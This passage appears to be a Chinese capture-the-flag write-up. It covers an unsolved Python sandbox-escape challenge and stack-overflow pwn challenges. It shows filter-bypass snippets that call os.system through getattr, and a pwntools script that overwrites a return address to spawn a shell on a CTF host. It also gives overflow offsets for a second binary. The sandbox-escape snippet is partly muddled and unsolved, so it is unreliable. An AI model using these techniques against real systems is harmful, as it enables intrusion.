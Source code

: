 ### hex酱（未解）

1. 有题目得知 hex， 利用hex编码进行 沙箱逃逸
2. 被过滤字符：os|.|system|

```
a = 'cat flag.txt'

```

过滤. ， 利用 getattr()函数  `getattr(os, "system")("whoami")`

python 十六进制转hex

利用 `getattr(getattr("impo""rt","join")([chr(95),chr(95)]),"join")([chr(95),chr(95)])`

## Pwn

### test_your_nc

用nc连接，直接出flag

### 究极基础栈溢出

nc连接，查看提示，发现backdoor 地址， 以及已经填充esp， 只需pad0*14 字节

写个pwn， 进入 shell， 出 flag

```python
from pwn import *
io = 0
def isDebug(debug):
    global io
    if debug:
        io = process('t1')
    else:
        io = remote('101.36.122.23', 10000)

def pwn():
    payload = flat('A'* 0x10 , 0, 0x804851b)
    io.sendline(payload)
    io.interactive()
if __name__ == '__main__':
    isDebug(0)
    pwn()

```

### 基础栈溢出

ida查看源码，发现只要让 v1 = 841,然后 覆盖返回值，进入后门即可

1. s 和 v1 地址相差 8， 填充8个'a'，

2. 然后覆盖v1的值, p32(841)
3. s和返回值相差24 ，减去之前的12 ，再次填充12个 'a' 即可

